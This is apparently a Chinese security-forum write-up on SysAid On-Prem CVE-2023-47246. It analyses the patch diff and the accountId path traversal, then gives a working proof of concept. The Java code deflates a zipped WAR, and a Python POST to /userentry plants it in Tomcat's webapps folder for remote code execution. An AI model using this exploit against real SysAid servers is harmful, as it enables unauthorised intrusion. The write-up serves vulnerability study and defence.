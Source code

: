 

# 奇安信攻防社区-【Web】SysAid On-Prem Software CVE-2023-47246 目录穿越RCE

### 【Web】SysAid On-Prem Software CVE-2023-47246 目录穿越RCE

2023 年 11 月 8 日，SysAid 发布了一份公告，表示他们的本地服务器软件存在先前未公开的漏洞，并且发现了公开的野外利用，本文将对该漏洞进行分析，并给出利用方式。

# 公告

[https://www.sysaid.com/blog/service-desk/on-premise-software-security-vulnerability-notification](https://www.sysaid.com/blog/service-desk/on-premise-software-security-vulnerability-notification)

说是有一个目录穿越可以传war包，导致rce了。

# 下载

[https://cdn3.sysaid.com/OnPremInstall/23.3.36/SysAidServer64.exe](https://cdn3.sysaid.com/OnPremInstall/23.3.36/SysAidServer64.exe)

[https://cdn3.sysaid.com/OnPremInstall/23.3.35/SysAidServer64.exe](https://cdn3.sysaid.com/OnPremInstall/23.3.35/SysAidServer64.exe)

安装需要试用证书，这个自己想办法，我没有，只是看了看diff。

# 补丁diff

com.ilient.server.UserEntry#doPost

![image.png](assets/1700812283-3434bdb38832daf2f941ec92c15d0e87.png)

修了目录穿越

![image.png](assets/1700812283-4369a5a7b13a776be945a24b939a7267.png)

var4来自accountId参数，在a函数中存在目录穿越

![image.png](assets/1700812283-1d834447939988b17d62548608095749.png)

最终会被拼接到文件路径中，并且写入`InflaterInputStream var29 = new InflaterInputStream(var1.getInputStream());`数据流

![image.png](assets/1700812283-9766f89899927dd49e92ae7cd302c5e4.png)

但是这里文件名是时间戳.zip，继续往后看还有一个a函数

![image.png](assets/1700812283-5b1082c11e41c05770dbdf1d868e929e.png)

这里var1是accountid，解压时间戳.zip，var1可以跨目录，虽然判断了目录穿越`var10.getCanonicalPath().startsWith(var5 + File.separator)`，但是var1本来就是目录穿越的，所以判断没用。

![image.png](assets/1700812283-f168aaf1a85bb6f6eb09e568bcb0f076.png)

这样就能自定义war包名字了，配合tomcat自动部署rce。

![image.png](assets/1700812283-fbbc6af1b0f8e446207e683bfe7ad959.png)

# 构造exp

实际利用发现需要绕过几个点

![image.png](assets/1700812283-8a5c3d629c40270d65e5fb53b1aefec8.png)

isLdapSupport会执行sql判断`count(ldap_id)>1`

![image.png](assets/1700812283-c268e22dc241e827315231956d48cb15.png)

最终是拼接accountid当作数据库名，然后查询判断`count(ldap_id)>1`

![image.png](assets/1700812283-eaec1c7c9ff2dbb91f9f1b1da8dbdfdd.png)

这里需要手动配置下后台（所以这个洞是非默认配置！！！）

![image.png](assets/1700812283-4276a083dd98c81388adb5e80c399d69.png)

默认数据库名是ilient

![image.png](assets/1700812283-406faa0480fa8403a03d1650bdcb5a55.png)

另外就是war包构造，需要用Deflater压缩一下

```java
import org.springframework.util.StreamUtils;

import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.util.zip.Deflater;
import java.util.zip.ZipEntry;
import java.util.zip.ZipOutputStream;

public class Main {
    public static void main(String[] args) throws IOException {
        FileOutputStream fileOutputStream = new FileOutputStream("1.zip");
        ZipOutputStream zipOutputStream = new ZipOutputStream(fileOutputStream);
        zipOutputStream.putNextEntry(new ZipEntry("haha.war"));
        zipOutputStream.write(StreamUtils.copyToByteArray(new FileInputStream("C:\\Users\\asd\\Desktop\\war\\w.war")));
        zipOutputStream.closeEntry();
        zipOutputStream.flush();
        zipOutputStream.finish();

        Deflater deflater = new Deflater();
        FileInputStream fileInputStream = new FileInputStream("1.zip");
        byte[] data = StreamUtils.copyToByteArray(fileInputStream);
        deflater.setInput(data);
        deflater.finish();
        byte[] output;
        ByteArrayOutputStream bos = new ByteArrayOutputStream(data.length);
        try {
            byte[] buf = new byte[1024];
            while (!deflater.finished()) {
                int i = deflater.deflate(buf);
                bos.write(buf, 0, i);
            }
            output = bos.toByteArray();
        } catch (Exception e) {
            output = data;
            e.printStackTrace();
        } finally {
            bos.close();
        }
        deflater.end();

        new FileOutputStream("1.dat").write(output);
    }
}
```

```python
import requests

proxy = {
'http':'http://localhost:8080'
}
headers = {
'Content-Type':'application/octet-stream'
}
r = requests.post('http://172.16.1.237:8080/userentry?accountId=ilient/../../../../tomcat/webapps&symbolName=LDAP_REFRESH_',headers=headers,data=open('1.dat','rb'),proxies=proxy)
```

python发包就能部署war包了。

![image.png](assets/1700812283-de62e90e3a3b8f2ad7b946820c3960ce.png)

# 总结

和@r4v3zn折腾了两三天才实现完整的构造，主要是卡在没许可证上了。装环境2小时，rce2分钟。
